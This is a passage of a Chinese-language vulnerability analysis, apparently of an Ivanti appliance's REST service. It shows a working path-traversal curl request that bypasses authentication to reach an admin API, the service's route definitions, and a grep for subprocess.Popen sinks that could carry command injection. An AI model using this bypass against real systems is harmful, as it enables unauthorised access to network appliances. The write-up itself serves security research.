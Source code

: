 ```
```  
```

```  
  
  
示例：  
```
➜  ivanti curl -ik --path-as-is https://192.168.59.38/api/v1/cav/client/status/../../admin/options
HTTP/1.1 200 Connection established

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 46

{"poll_interval": 99999, "block_message": ""}
```  
```
```  
  
  
python rest 服务在restservice-0.1-py3.6.egg中实现，解压代码，可以在restservice\api\__init__.py  
中看到其定义了一系列API  
```

```  
```
api.add_resource(
    Userrecordsynchronization,
    "/api/v1/system/user-record-synchronization",
    "/api/v1/system/user-record-synchronization/database/export",
    "/api/v1/system/user-record-synchronization/database/import",
    "/api/v1/system/user-record-synchronization/database/delete",
    "/api/v1/system/user-record-synchronization/database/retrieve-stats",
)
api.add_resource(
    WebProfile, "/api/v1/system/resource-profiles/web-profile/<path:applet_name>"
)
api.add_resource(
    ActiveSyncDevices,
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/allow-access",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/block-access",
    "/api/v1/system/status/active-sync-devices",
)
api.add_resource(
    AwsAzureTestConnection,
    "/api/v1/system/maintenance/archiving/cloud-server-test-connection",
)

```  
  
全局搜索popen  
```

```  
```
➜ grep -ir "popen"
restservice/api/resources/awsazuretestconnection.py:                    proc = subprocess.Popen(
restservice/api/resources/config.py:        proc = subprocess.Popen(
restservice/api/resources/config.py:        proc = subprocess.Popen(args, stdout=subprocess.PIPE)
restservice/api/resources/config.py:        popen_args = [
restservice/api/resources/config.py:            popen_args.append("--expand-href")
restservice/api/resources/config.py:            popen_args.append("--exclude-pulse-packages")
restservice/api/resources/config.py:        proc = subprocess.Popen(popen_args, stdout=subprocess.PIPE)
restservice/api/resources/controller.py:        proc = subprocess.Popen(
restservice/api/resources/controller.py:        proc = subprocess.Popen(
```